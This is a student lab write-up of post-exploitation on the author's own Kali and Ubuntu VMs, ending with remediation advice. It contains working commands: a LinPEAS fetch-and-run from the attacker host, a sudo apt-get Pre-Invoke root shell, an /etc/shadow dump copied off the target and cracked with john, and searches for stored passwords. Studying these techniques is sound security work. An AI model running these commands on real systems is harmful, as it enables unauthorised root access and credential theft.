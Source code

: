 

# Option 4: Post-Exploitation & Privilege Escalation

    Perform post-exploitation techniques after gaining access to a vulnerable system.
    Techniques may include privilege escalation, credential dumping, or lateral movement.
    Explain how real-world attackers use these techniques after initial compromise.
    Deliverables: Walkthrough of the escalation method, captured credentials or access verification.


# Lab Setup

1. Using two VMware machines; Kali and Ubuntu.

    On each machine I ran the following commands to grab each machines IP and performed a ping scan to ensure the machines were on the same LAN.

    ![alt text](image-15.png)


2. On the vuln-Ubuntu OS, I created a separate user using the following cmds:

        sudo adduser hacker

        pswd: &UJM7ujm

    ![alt text](image-16.png)
   

3. On the vuln-Ubuntu OS, I Set up SSH

        sudo apt install -y openssh-server
        sudo ufw allow 22/tcp
        sudo systemctl enable ssh
        sudo systemctl start ssh

    ![alt text](image-17.png)


<br><br>

# Step 1: Initial Access (Precondition)

- Prior to post-exploitation, access to the Ubuntu system was obtained using a standard SSH login for a low-privilege user hacker:

        ssh hacker@192.168.229.130

    ![alt text](image-18.png)


<br><br>

# Step 2: Enumeration for Privilege Escalation

- On Kali (Attacker VM), download LinPEAS:

        wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
        chmod +x linpeas.sh
        python3 -m http.server 8080

    ![alt text](image-19.png)

    
- On Ubuntu (Target VM) as `hacker`, download and run LinPEAS:

        wget http://192.168.229.131:8080/linpeas.sh
        chmod +x linpeas.sh
        ./linpeas.sh | tee linpeas_output.txt

    ![alt text](image-20.png)
    


- Key findings from enumeration

    - The hacker user was allowed to execute apt-get with sudo without a password:

            sudo -l

        Did a search of `sudo -l` in terminal of the results:

        ![alt text](image-22.png) ![alt text](image-23.png) ![alt text](image-24.png) ![alt text](image-25.png) ![alt text](image-26.png) 

    - Output; this should be:

            (ALL) NOPASSWD: /usr/bin/apt-get

    ![alt text](image-21.png)


<br><br>

# Step 3: Exploiting the Escalation Vector

- Privilege Escalation Using apt-get Pre-Invoke

    This command executes /bin/bash as root before the apt-get update process, resulting in a root shell.

        sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash

- To confirm `root` access run the following commands and see the screenshot output

        whoami

        id

    ![alt text](image-27.png)


<br><br>


# Step 4: Post-Exploitation Tasks

Now operating as root on the Ubuntu VM, the following tasks were performed:

1. Crediential Dumping

    - Dumped the /etc/shadow file for offline password cracking:

            cat /etc/shadow > /tmp/shadow_dump

        ![alt text](image-29.png)

    - Transferred to Kali for analysis:

            scp hacker@192.168.229.130:/tmp/shadow_dump .

        ![alt text](image-28.png) ![alt text](image-30.png)

    - Cracked using john:

            john --wordlist=/usr/share/wordlists/rockyou.txt shadow_dump

        Attempted to run the command above but couldn't, as i recieved an 'no file` error for rockyou.txt.
        So I navigated to the `wordlists` folder and found that the txt file was compressed.  Ran `sudo gunzip /usr/share/wordlists/rockyou.txt.gz` to unzip the txt file.  

        Now I was successfully able to run the command above.   

        ***JOHN OUTPUT***  Not sure why the results only list `rvaldez` and not `hacker`.  

        ![alt text](image-31.png)


2. Sensitive File Discovery

    - Search for files containing credentials:

            find / -name "*password*" 2>/dev/null

        ![alt text](image-32.png)

    - Review command history:
        
            cat ~/.bash_history

        ![alt text](image-33.png)


<br><br>

# Conclusion

Initial Foothold: SSH access via low-privilege hacker user

Escalation Vector: Misconfigured sudo permissions allowing apt-get with no password

Post-Exploitation: Successfully gained root access, dumped credentials, and searched for sensitive files


<br><br>

# Remediation Recommendations

Restrict sudo Permissions: Remove NOPASSWD entries from non-admin users.

Monitor /etc/sudoers: Enforce least privilege and audit who can use sudo.

Credential Storage Review: Ensure sensitive credentials are not stored in plaintext or exposed via history files.

Logging & Monitoring: Implement host-based logging (e.g., auditd) to detect privilege escalation attempts.